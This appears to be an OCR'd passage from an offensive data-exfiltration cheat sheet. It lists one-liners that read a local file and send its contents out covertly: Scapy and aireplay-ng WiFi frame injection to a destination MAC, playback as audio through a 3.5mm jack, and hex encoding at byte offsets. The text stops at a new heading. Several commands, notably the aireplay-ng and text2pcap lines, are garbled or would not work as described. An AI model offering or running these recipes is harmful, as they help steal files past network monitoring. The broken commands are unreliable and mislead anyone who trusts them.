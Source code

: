 
### WiFi - On Payload 

1. **Using Scapy in Python to send data via WiFi frames:**


`python -c "from scapy.all import *; sendp(RadioTap()/Dot11(type=2, subtype=4, addr1='[destination_MAC]', addr2='[source_MAC]', addr3='[destination_MAC]')/Raw(load='$(cat /path/to/local/file.txt)'), iface='wlan0')"`

2. **Using Aircrack-ng suite to send data via WiFi frames:**


`echo -n "$(cat /path/to/local/file.txt)" | hexdump -v -e '"\x" 1/1 "%02x"' | xargs -I {} aireplay-ng -0 0 -e TestSSID -a [BSSID] -c [target_client_MAC] -y {}`

3. **Using Wireshark and Wi-Fi adapter in monitor mode to inject frames:**


`echo -n "$(cat /path/to/local/file.txt)" | xxd -p -c 10000 | xargs -I {} echo '{}' | text2pcap -t "%Y-%m-%d %H:%M:%S." -u 10000 -T 300 - MAC_HEADER_CAPTURE.pcap`

### 3.5mm Jack 

1. **Using `play` from `sox` to transmit audio through the 3.5mm jack:**


`echo -n "$(cat /path/to/local/file.txt)" | play -t raw -r 44100 -b 16 -c 2 -e signed -B -q -`

2. **Using a smartphone app to play audio tones from the file:**


`Install a tone generator app on your smartphone, load the file, and play it through the 3.5mm jack.`

3. **Using a microcontroller and a headphone jack to play audio signals:**


`Program a microcontroller to read the file and output the audio signal to a 3.5mm jack connected to headphones or speakers.`

### Binary Offset 

1. **Using `xxd` to encode data as binary and print specific offsets:**


`xxd -p /path/to/local/file.txt | cut -c 1-2,5-6,9-10 | xargs -I {} echo -n "0x{} "`

2. **Using Python to encode data as binary and generate specific offsets:**


`python -c "data = open('/path/to/local/file.txt', 'rb').read(); print(' '.join(['0x{:02x}'.format(b) for b in data[::4]]))"`

3. **Using Perl to encode data as binary and generate specific offsets:**


`perl -e 'open $f, "/path/to/local/file.txt"; while(read $f, $b, 1) { printf "0x%02x ", ord($b); }'`

### Video Transcript to Dictionary 

1. **Using Python to convert a video transcript into a dictionary:**
